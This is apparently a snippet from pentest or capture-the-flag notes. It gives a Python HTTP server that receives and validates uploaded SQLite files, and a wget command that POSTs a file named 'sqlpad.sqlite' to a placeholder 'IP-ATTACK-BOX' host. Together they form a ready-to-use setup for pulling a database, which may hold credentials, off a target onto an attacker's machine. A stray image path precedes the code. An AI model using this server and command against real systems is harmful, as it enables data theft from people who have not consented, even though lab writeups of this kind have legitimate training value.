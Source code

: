 ### Start Python Server

from http.server import HTTPServer, BaseHTTPRequestHandler
import os
import sqlite3

class SQLiteUploadHandler(BaseHTTPRequestHandler):
    upload_dir = "uploads"

    def do_POST(self):
        # read header for file-size
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # create directory if not existing
        os.makedirs(self.upload_dir, exist_ok=True)

        # save file as "uploaded_file.sqlite"
        file_path = os.path.join(self.upload_dir, "uploaded_file.sqlite")
        with open(file_path, "wb") as f:
            f.write(post_data)

        # Check for valid sql-file
        if self.is_valid_sqlite(file_path):
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b"SQLite-file successfully uploaded and valid")
        else:
            os.remove(file_path)  # delete non valid file
            self.send_response(400)
            self.end_headers()
            self.wfile.write(b"The uploaded file is not a valid sqllite-file")

    def is_valid_sqlite(self, file_path):
        """Check if its a valid SQLite-Database."""
        try:
            with sqlite3.connect(file_path) as conn:
                conn.execute("SELECT 1")  # Testrequest
            return True
        except sqlite3.Error:
            return False

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"This server accepts post requests for sqlite files")

# Start Server
if __name__ == "__main__":
    host = "0.0.0.0"
    port = 8000
    print(f"Server running on http://{host}:{port}")
    server = HTTPServer((host, port), SQLiteUploadHandler)
    server.serve_forever()

----------------------------------
Start Python-Server

python3 post_server.py
Transfer File

wget --method=POST --body-file=sqlpad.sqlite http://IP-ATTACK-BOX:8000/
